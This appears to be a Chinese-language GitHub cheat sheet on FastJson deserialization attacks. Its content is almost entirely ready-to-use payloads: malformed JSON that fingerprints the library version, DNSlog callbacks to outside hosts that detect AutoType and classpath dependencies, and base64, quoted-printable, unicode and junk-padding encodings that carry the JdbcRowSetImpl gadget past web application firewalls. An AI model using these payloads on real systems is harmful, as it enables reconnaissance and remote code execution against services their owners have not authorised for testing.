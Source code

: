 - [Deserialization](#deserialization)
  - [PHP](#php)
  - [FastJson](#fastjson)
    - [版本探测](#版本探测)
    - [AutoType探测](#autotype探测)
    - [依赖环境探测](#依赖环境探测)
    - [WAF Bypass](#waf-bypass)
  - [参考](#参考)

# Deserialization
## PHP
## FastJson
### 版本探测
遇到`{`和`,`会抛出版本信息.
```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}
{"@type":"java.lang.AutoCloseable"
```   
![](2023-01-16-17-04-16.png)  
1.2.47
```json
{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.68
```json
{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.80
```json
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"first.dnslog.com"}}},
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"second.dnslog.com"}}}
```
### AutoType探测
1.x版本中,当使用`parse(String text)`或者`parseObject(String text)`时
```json
{"@type":"aaaa"}
```
![](2023-01-16-17-46-10.png)  
但在2.x版本,`parseObject`不再反序列化.
### 依赖环境探测
```json
{"@type":"java.lang.Class","val":${class}}
```
```
org.springframework.web.bind.annotation.RequestMapping spring
org.apache.catalina.startup.Tomcat tomcat
groovy.lang.GroovyShell groovy
com.mysql.jdbc.Driver mysql
java.net.http.HttpClient java 11
```
```json
{"@type":"java.net.Inet4Address", "val":{"@type":"java.lang.String" {"@type":"java.util.Locale", "val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type": "java.lang.String""@type":"java.util.Locale", "language":{"@type":"java.lang.String" {1:{"@type":"java.lang.Class","val":"TARGET_CLASS"}}, "country":"x.l56y7u6g.dnslog.pw" 
```
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}
```
### WAF Bypass
编码:base64,Quoted-printable,unicode  
payload: {"@type":"com.sun.rowset.JdbcRowSetImpl"}  
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: Base64
eyJAdHlwZSI6ImNvbS5zdW4ucm93c2V0LkpkYmNSb3dTZXRJbXBsIn0=
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: quoted-printable
=7B=22=40type=22=3A=22com.sun.rowset.JdbcRowSetImpl=22=7D
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```json
{,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.langAutoCloseable"  
```
垃圾字符:
```
[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,...,{'\x40\u0074\x79\u0070\x65':xjava.lang.AutoCloseable"
...
]]]]]
```

## 参考
[Hacking JSON KCon2022](https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf)  
https://b1ue.cn/archives/402.html
